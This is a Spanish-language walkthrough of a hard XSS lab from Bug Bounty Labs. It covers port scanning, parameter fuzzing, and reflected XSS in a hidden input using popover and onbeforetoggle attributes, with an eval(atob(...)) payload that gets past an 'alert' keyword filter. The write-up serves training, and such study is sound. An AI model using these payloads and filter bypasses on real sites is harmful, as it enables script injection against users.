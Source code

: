 ```yaml
---
description: >-
  Writeup del laboratorio de dificultad dificil XSSaS de la página https://bugbountylabs.com/
title: BBLabs - XSSaS | (Difficulty Hard) - XSS
date: 2025-03-05
categories: [Writeup, Bug Bounty Labs]
tags: [bblabs, hacking, bug bounty labs, hacking web, xss, medium, writeup, pentesting]
image_post: true
image: https://github.com/user-attachments/assets/fe1f55be-2afb-4859-b07a-49f5abd2d0b8
---
```


## TCP Scan

Realizo un escaneo de puertos TCP contra la dirección IP 192.168.1.139 pudiendo observar dos puertos, **`22, 80`**, el interesante es el puerto 80 que aloja un servidor web Werkzeug httpd 2.2.2

```bash
rustscan -a 192.168.1.139 --ulimit 5000 -g
192.168.1.139 -> [22,80]
```

```bash
nmap -p22,80 -sCV 192.168.1.139
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-05 22:03 CET
Nmap scan report for 192.168.1.139 (192.168.1.139)
Host is up (0.00015s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 af:79:a1:39:80:45:fb:b7:cb:86:fd:8b:62:69:4a:64 (ECDSA)
|_  256 6d:d4:9d:ac:0b:f0:a1:88:66:b4:ff:f6:42:bb:f2:e5 (ED25519)
80/tcp open  http    Werkzeug httpd 2.2.2 (Python 3.11.2)
|_http-title: Verificaci\xC3\xB3n de Usuario
|_http-server-header: Werkzeug/2.2.2 Python/3.11.2
MAC Address: 08:00:27:91:6A:9B (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.52 seconds
```

## Exploitation

### 80/TCP

Accedo a http://192.168.1.139/ puediendo observar una web que contiene un título que indica `"Usuario no encontrado"`, junto con un boton que indica `"Click Here"`

![image](https://github.com/user-attachments/assets/45774300-531d-4e98-92b5-14e3e94c98e6)

Analizando el código fuente observo la existencia de un formulario con un input oculto, y por otro lado el button utiliza el atributo `"popovertarget"` apuntando a un elemento que contenga el id `"x"`, popover es una aracterística de HTML que permite a un botón o enlace activar una ventana emergente sin necesidad de JavaScript

![image](https://github.com/user-attachments/assets/e78c6199-7eb8-4ad4-a2f7-882d12968155)

Utilizo wffuz para realizar para realizar fuzzing de parámetros en la URL, consigo encontrar que existe un parámetro, el cual es `/?user=`

```bash
wfuzz -c --hh=548 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://192.168.1.139/?FUZZ=ju4ncaa"
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                              
=====================================================================
000000125:   200        20 L     42 W       555 Ch      "user"  
```

Consigo observar que el valor que introduzco a través del parámetro GET `?user=` se ve reflejado en el `value` del input oculto

![image](https://github.com/user-attachments/assets/0694e9e1-2014-4a82-a581-623c883ca8fc)

Para entender mejor como realizar la explotación adjunto dos artículos de PortSwigger:

* [Exploiting XSS in hidden inputs and meta tags](https://portswigger.net/research/exploiting-xss-in-hidden-inputs-and-meta-tags)
* [XSS in hidden input fields](https://portswigger.net/research/xss-in-hidden-input-fields)

Basicamente aprovecharé el input hidden y desde la URL del navegador a través del parámetro GET `/?user=` escaparé `value=` con una comilla `"`, le asignaré el `id=x` al que hace referencia el `<button>` el atributo `popover` que va a permitir que sea un popover visible y por ultimo aprovecharé el evento `onbeforetoggle` donde indicaré que quiero ejecutar cuando el popover se active

#### Payload

```
/?user="id=x popover onbeforetoggle="alert()
```

Al intentar ejecutar un alert() obtengo un mensaje que indica que la palabra `alert` no está permitida en el nombre de usuario.

![image](https://github.com/user-attachments/assets/46464436-27fa-4ada-9cfa-ed0513379ae2)

Algunos payloads que pueden bypassear esta comprobación se encuentran en el siguiente artículo de PortSwigger:

* [Bypassing Signature-Based XSS Filters: Modifying Script Code](https://portswigger.net/support/bypassing-signature-based-xss-filters-modifying-script-code)

#### Payload

```
/?user="id=x popover onbeforetoggle="eval(atob('amF2YXNjcmlwdDphbGVydCgxKQ'));
```

![image](https://github.com/user-attachments/assets/ff213082-3204-4fd8-af13-f34cc7a926cc)
